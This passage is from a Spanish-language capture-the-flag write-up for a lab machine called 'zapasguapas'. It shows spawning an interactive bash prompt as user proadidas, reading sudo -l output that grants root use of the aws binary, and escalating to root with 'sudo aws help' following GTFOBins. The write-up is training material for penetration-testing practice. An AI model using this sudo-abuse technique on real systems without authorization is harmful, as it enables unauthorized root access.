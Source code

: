 Y ya seremos el usuario proadidas:
```bash
$ whoami
proadidas
```

Si quieres que se vea el **prompt**, solamente ejecuta cualquiera de los siguientes comandos:
```bash
# Forma 1
$ /bin/bash -i
proadidas@zapasguapas:/home/pronike$
.
# Forma 2
$ exec bash
proadidas@zapasguapas:/home/pronike$
```

<br>

<h2 id="binAWS">Escalando Privilegios con Binario aws para Convertirnos en Root</h2>

Si revisamos los privilegios del **usuario proadidas**, podremos usar el comando **aws** como el **usuario Root**:
```bash
proadidas@zapasguapas:/home/pronike$ sudo -l
Matching Defaults entries for proadidas on zapasguapas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
.
User proadidas may run the following commands on zapasguapas:
    (proadidas) NOPASSWD: /usr/bin/apt
    (root) NOPASSWD: /usr/bin/aws
```

Y de nuevo, buscando en **GTFOBins**, encontramos una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/aws/" target="_blank">GTFOBins: aws</a>

Vamos a aplicarlo:
```bash
proadidas@zapasguapas:/home/pronike$ sudo aws help
```

Una vez que lo ejecutes, aplicamos lo mismo que hicimos antes:

<p align="center">
<img src="/assets/images/THL-writeup-zapasguapas/Captura15.png">
</p>
